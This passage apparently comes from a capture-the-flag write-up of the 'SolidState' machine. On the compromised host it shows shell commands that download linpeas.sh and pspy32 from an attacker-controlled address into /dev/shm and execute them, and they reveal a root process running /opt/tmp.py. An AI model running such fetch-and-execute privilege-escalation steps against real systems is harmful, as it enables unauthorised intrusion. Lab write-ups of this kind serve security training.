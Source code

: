 ```
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ cd /dev/shm
cd /dev/shm
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ wget http://10.10.16.2:8081/linpeas.sh
6.2:8081/linpeas.sh6
--2023-01-26 09:42:41--  http://10.10.16.2:8081/linpeas.sh
Connecting to 10.10.16.2:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 777018 (759K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 758.81K   679KB/s    in 1.1s    

2023-01-26 09:42:43 (679 KB/s) - ‘linpeas.sh’ saved [777018/777018]

${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ ls
ls
linpeas.sh
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ chmod +x linpeas.sh
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ ./linpeas.sh
./linpeas.sh
...
```

After viewing the results carefully, I didn't find anything interesting. So, I decided to upload `pspy` to check the 

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ wget http://10.10.16.2:8081/pspy32
6.2:8081/pspy3210.16
--2023-01-26 09:52:05--  http://10.10.16.2:8081/pspy32
Connecting to 10.10.16.2:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2940928 (2.8M) [application/octet-stream]
Saving to: ‘pspy32’

pspy32              100%[===================>]   2.80M  1.73MB/s    in 1.6s    

2023-01-26 09:52:07 (1.73 MB/s) - ‘pspy32’ saved [2940928/2940928]

${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ chmod +x pspy32
chmod +x pspy32
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ ./pspy32
./pspy32
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d

```


After a minute I saw an interesting process pop up.

```
2023/01/26 09:54:01 CMD: UID=0     PID=21164  | python /opt/tmp.py 
```

